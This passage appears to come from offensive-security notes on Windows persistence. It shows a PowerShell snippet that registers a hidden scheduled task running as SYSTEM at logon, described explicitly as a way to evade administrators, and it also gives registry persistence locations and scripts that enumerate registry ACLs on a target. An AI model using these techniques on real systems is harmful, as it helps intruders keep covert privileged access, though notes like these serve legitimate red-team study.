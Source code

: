 5. Create a Hidden Task (System Level):  
   This creates a hidden task that runs with SYSTEM privileges. The `-Hidden` setting helps evade detection by administrators.
	```powershell
	$action = New-ScheduledTaskAction -Execute "C:\path\to\program.exe"
	$trigger = New-ScheduledTaskTrigger -AtLogon
	$settings = New-ScheduledTaskSettingsSet -Hidden
	Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "<task_name>" -Settings $settings -User "SYSTEM"
	```

#### Scheduled Tasks Payload Examples
- [[Windows Targeting - Scheduled Tasks]]

# Windows Registry

- User-Level Persistence: Entries made under `HKCU` will affect only the current user.
- System-Level: Entries made under `HKLM` will affect the entire system, providing deeper persistence.

#### Manually Browse Registry Keys
```powershell
regedit
```

#### Get-ACL for Registry Hive Recursively
- Script queries target entire Windows Registry Hive for all ACLs:
```powershell
# Initialize output file path
$OutputFilePath = "C:\Path\To\Outfile.txt"

# Set a large width to prevent line wrapping
$PSDefaultParameterValues['Out-File:Width'] = 300

# Ensure the output file is created/reset with UTF-8 encoding
New-Item -Path $outputFilePath -ItemType File -Force | Out-Null

# Initialize path
$path = "Microsoft.PowerShell.Core\Registry::HKEY_CURRENT_USER\"

# Recursively query registry hive for ACLs and save to the output file
Get-ChildItem -Path $path -Recurse -ErrorAction SilentlyContinue | 
ForEach-Object { 
    Get-Acl -Path $_.PSPath 
} | Format-List | Out-String -Width 300 | Out-File -FilePath $OutputFilePath -Encoding UTF8
```

#### Get-ACL for Specific Registry Key
- Script queries target specified Windows Registry Key for Access Control List (ACL):
```powershell
# Initialize output file path
$OutputFilePath = "C:\Path\To\Outfile.txt"

# Set a large width to prevent line wrapping
$PSDefaultParameterValues['Out-File:Width'] = 300

# Ensure the output file is created/reset with UTF-8 encoding
New-Item -Path $outputFilePath -ItemType File -Force | Out-Null

# Initialize path
$path = "Microsoft.PowerShell.Core\Registry::HKEY_CURRENT_USER\"

# Retrieve the Access Control List (ACL) for the HKEY_CURRENT_USER registry hive
$RegistryACL = Get-Acl -Path $path
```